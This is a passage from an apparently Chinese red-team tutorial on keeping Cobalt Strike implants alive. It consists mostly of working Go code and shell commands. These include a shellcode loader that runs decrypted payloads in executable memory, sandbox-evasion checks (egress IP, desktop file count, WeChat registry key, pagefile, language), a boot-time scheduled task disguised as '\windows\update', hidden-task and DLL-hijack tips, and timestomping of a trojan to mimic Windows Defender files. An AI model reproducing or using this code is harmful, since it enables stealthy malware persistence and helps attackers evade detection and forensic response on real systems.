    addr, _, err := VirtualAlloc.Call(0, uintptr(len(decryt)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)  
    if err != nil &amp;&amp; err.Error() != "The operation completed successfully." {  
        syscall.Exit(0)  
    }  
    _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&amp;decryt[0])), uintptr(len(decryt)))  
    if err != nil &amp;&amp; err.Error() != "The operation completed successfully." {  
        syscall.Exit(0)  
    }  
    syscall.Syscall(addr, 0, 0, 0, 0)  
}  
```

### 好用的反沙箱技巧

#### 出口IP判断

```go
func san() {  
  url := "https://myip.ipip.net/"  
​  
  resp, err := http.Get(url)  
  if err != nil {  
    os.Exit(1)  
  }  
  defer resp.Body.Close()  
​  
  body, err := ioutil.ReadAll(resp.Body)  
  if err != nil {  
    os.Exit(1)  
  }  
​  
  content := string(body)  
​  
  if strings.Contains(content, "中国") {  
  } else {  
    os.Exit(1)  
  }  
  }
```

#### 检测桌面文件数量

```go
func desktop() {  
    desktopPath, err := os.UserHomeDir()  
    if err != nil {  
        fmt.Println("无法获取用户桌面路径：", err)  
        return  
    }  
​  
    desktopPath = filepath.Join(desktopPath, "Desktop")  
    fileCount, err := countFilesInDir(desktopPath)  
    if err != nil {  
        fmt.Println("无法读取用户桌面文件列表：", err)  
        return  
    }  
​  
    fmt.Println("用户桌面文件数：", fileCount)  
​  
    if fileCount &lt; 7 {  
        os.Exit(0)  
    }  
    // 在这里编写你的其他代码逻辑  
}
```

#### 检测微信等常见软件

```go
func CheckWeChatExist() {  
  k, err := registry.OpenKey(registry.CURRENT_USER, `SOFTWARE\\Tencent\\bugReport\\WechatWindows`, registry.QUERY_VALUE)  
  if err != nil {  
    os.Exit(0)  
  }  
  defer k.Close()  
​  
  s, _, err := k.GetStringValue("InstallDir")  
  if err != nil || s == "" {  
    os.Exit(0)  
  }  
}
```

#### 检测pagefile.sys

```go
func sys() {  
    pageFilePath := "C:\\pagefile.sys"   
    _, err := os.Stat(pageFilePath)  
    if os.IsNotExist(err) {  
        os.Exit(1)  
    } else if err != nil {  
    } else {  
    }  
}
```

#### 判断系统类型

```go
func language() {  
    language := os.Getenv("LANG")  
​  
    if strings.Contains(language, "en_US") {  
        os.Exit(0)  
    } else {  
    }  
}
```

### 内存流量处理

流量侧可通过云函数或者CDN进行伪装，配置可参考网上教程在这里不进行详述，相关项目可参考，但要注意oss权限设置避免被溯源

[https://github.com/9bie/oss-stinger](https://github.com/9bie/oss-stinger)  
[https://github.com/pantom2077/alioss-stinger](https://github.com/pantom2077/alioss-stinger)

自定义profile，可使用以下项目随机生成

[https://github.com/threatexpress/random\_c2\_profile](https://github.com/threatexpress/random_c2_profile)

内存混淆，动态加解密beacon内存，重载Ntdll等技术，可参考下面文章

[https://www.freebuf.com/articles/system/361161.html](https://www.freebuf.com/articles/system/361161.html)  
[https://idiotc4t.com/defense-evasion/load-ntdll-too](https://idiotc4t.com/defense-evasion/load-ntdll-too)

### 执行命令bypass

直接通过cs执行截图，spawn等敏感操作，容易导致beacon掉线，这时候可以使用bof替代，下面列举一些好用的

> 进程迁移 [https://github.com/ajpc500/BOFs](https://github.com/ajpc500/BOFs)  
> 截图 [https://github.com/baiyies/ScreenshotBOFPlus](https://github.com/baiyies/ScreenshotBOFPlus)  
> 删除自身 [https://github.com/AgeloVito/self\_delete\_bof](https://github.com/AgeloVito/self_delete_bof)  
> bypassuac提权 [https://github.com/youcannotseemeagain/ele](https://github.com/youcannotseemeagain/ele)

可以定期去github上关注一些好用的bof  


### 权限维持

> 常规命令添加计划任务，注册表这里不过多叙述，网上命令教程有

#### 添加计划任务

> 在攻防中，上线机器总是需要手动进行维权太过于麻烦，直接在代码加入上线自动添加计划任务，测试可以bypass常规杀软

部分实现代码：  
[https://github.com/capnspacehook/taskmaster](https://github.com/capnspacehook/taskmaster)

```go
package main  
​  
import (  
    "os"  
    "github.com/capnspacehook/taskmaster"  
)  
​  
func runWinTask(path string) {  
    // 创建初始化计划任务  
    taskService, _ := taskmaster.Connect()  
​  
    defer taskService.Disconnect()  
    // 定义新的计划任务  
    newTaskDef := taskService.NewTaskDefinition()  
    // 添加执行程序的路径  
    newTaskDef.AddAction(taskmaster.ExecAction{  
        Path: path,  
    })  
    // 定义计划任务程序的执行时间等，设置为开机启动  
    newTaskDef.AddTrigger(taskmaster.BootTrigger{  
        TaskTrigger: taskmaster.TaskTrigger{  
            Enabled: enable,  
        },  
    })  
​  
    // 创建计划任务  
    result, _, _ := taskService.CreateTask("\\windows\\update", newTaskDef, true)  
    result=result  
}  
​  
func main() {  
    path, err := os.Executable()  
    if err != nil {  
        return  
    }  
​  
    runWinTask(path)  
}
```

#### 隐藏计划任务

具体原理可参考0x727师傅的文章

[https://github.com/0x727/SchTask\_0x727](https://github.com/0x727/SchTask_0x727)  
[https://payloads.cn/2021/0805/advanced-windows-scheduled-tasks.html](https://payloads.cn/2021/0805/advanced-windows-scheduled-tasks.html)

> -   选择主机随机进程名作为计划任务程序文件名
> -   将计划任务程序文件复制到 `%AppData%\Microsoft\Windows\Themes\`
> -   创建的计划任务名取同一随机进程
> -   计划任务触发器以分钟为单位，无限期持续
> -   更改 Index、删除 SD 的键值，隐藏计划任务对应的 XML 文件

#### dll劫持替换

比较常用的有 `C:\Program Files (x86)\Google\Update`

当 `GoogleUpdate.exe` 程序运行的时候，会调用当前目录下的 `goopdate.dll` 文件



单个查找

[https://github.com/wietze/windows-dll-hijacking](https://github.com/wietze/windows-dll-hijacking)



批量查找

[https://github.com/knight0x07/ImpulsiveDLLHijack](https://github.com/knight0x07/ImpulsiveDLLHijack)

```php
ImpulsiveDLLHijack.exe -path xxx.exe
```

这里使用`navicat`进行测试，可见运行的时候会加载`C:\Users\xxx\AppData\Local\Programs\Python\Python38\Scripts\oci.dll`





#### 修改文件时间

当我们上传cs木马至服务器的时候，由于修改日期是新的，蓝队人员很容易通过 `everything` 筛选时间排查应急  


这时候我们可以使用一些技巧进行隐藏

[https://github.com/MsF-NTDLL/ChTimeStamp](https://github.com/MsF-NTDLL/ChTimeStamp)

通过这个项目实现修改文件时间，先看看预览效果



查看net版本

```php
shell reg query "HKLM\\Software\\Microsoft\\NET Framework Setup\\NDP" /s /v version | findstr /i version | sort /+26 /r  
```

需要安装net3.5 没有安装一下

```php
shell dism.exe /online /enable-feature /featurename:netfx3 /Source:C:\\Users\\hack\\Desktop\\dotnetfx35.exe  
DISM /Online /Enable-Feature /All /FeatureName:NetFx3 /LimitAccess /Source:D:\\sources\\sxs
```

[https://github.com/MsF-NTDLL/ChTimeStamp](https://github.com/MsF-NTDLL/ChTimeStamp)

```php
shell copy "C:\\Program Files\\Windows Defender\\MpClient.dll" C:\\Users\\Public\\AccountPictures\\MpClient.dll  
shell C:\\Users\\Public\\AccountPictures\\ChTimeStamp.exe C:\\Users\\Public\\AccountPictures\\new\_msedge.exe C:\\Users\\Public\\AccountPictures\\MpClient.dll
```



[https://github.com/sorabug/ChangeTimestamp](https://github.com/sorabug/ChangeTimestamp)

```php
ChangeTimestamp.exe xxx.exe 2021-12-09 15:08:27
```


